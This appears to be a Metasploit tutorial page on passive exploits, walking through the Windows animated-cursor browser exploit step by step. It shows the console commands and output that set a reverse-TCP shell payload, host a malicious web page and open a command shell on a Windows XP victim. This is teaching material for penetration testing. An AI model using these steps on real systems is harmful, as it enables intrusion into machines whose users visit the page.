             C:\WINDOWS\system32>

    - ## PASSIVE EXPLOITS

      - Passive exploits wait for incoming hosts and exploit them as they connect.

        - Passive exploits almost always focus on clients such as web browsers, FTP clients, etc.
        - They can also be used in conjunction with email exploits, waiting for connections.
        - Passive exploits report shells as they happen can be enumerated by passing ‘-l’ to the sessions command. Passing ‘-i’ will interact with a shell.

                msf exploit(ani_loadimage_chunksize) > sessions -l

                Active sessions
                ===============

                Id  Description  Tunnel
                --  -----------  ------
                1   Meterpreter  192.168.1.5:52647 -> 192.168.1.100:4444

                msf exploit(ani_loadimage_chunksize) > sessions -i 1
                [*] Starting interaction with 1...

                meterpreter >

        - The following output shows the setup to exploit the animated cursor vulnerability. The exploit does not fire until a victim browses to our malicious website.

                    msf > use exploit/windows/browser/ani_loadimage_chunksize
                    msf exploit(ani_loadimage_chunksize) > set URIPATH /
                    URIPATH => /
                    msf exploit(ani_loadimage_chunksize) > set PAYLOAD windows/shell/reverse_tcp
                    PAYLOAD => windows/shell/reverse_tcp
                    msf exploit(ani_loadimage_chunksize) > set LHOST 192.168.1.5
                    LHOST => 192.168.1.5
                    msf exploit(ani_loadimage_chunksize) > set LPORT 4444
                    LPORT => 4444
                    msf exploit(ani_loadimage_chunksize) > exploit
                    [*] Exploit running as background job.

                    [*] Started reverse handler
                    [*] Using URL: http://0.0.0.0:8080/
                    [*]  Local IP: http://192.168.1.5:8080/
                    [*] Server started.
                    msf exploit(ani_loadimage_chunksize) >
                    [*] Attempting to exploit ani_loadimage_chunksize
                    [*] Sending HTML page to 192.168.1.100:1077...
                    [*] Attempting to exploit ani_loadimage_chunksize
                    [*] Sending Windows ANI LoadAniIcon() Chunk Size Stack Overflow (HTTP) to 192.168.1.100:1077...
                    [*] Sending stage (240 bytes)
                    [*] Command shell session 2 opened (192.168.1.5:4444 -> 192.168.1.100:1078)

                    msf exploit(ani_loadimage_chunksize) > sessions -i 2
                    [*] Starting interaction with 2...

                    Microsoft Windows XP [Version 5.1.2600]
                    (C) Copyright 1985-2001 Microsoft Corp.
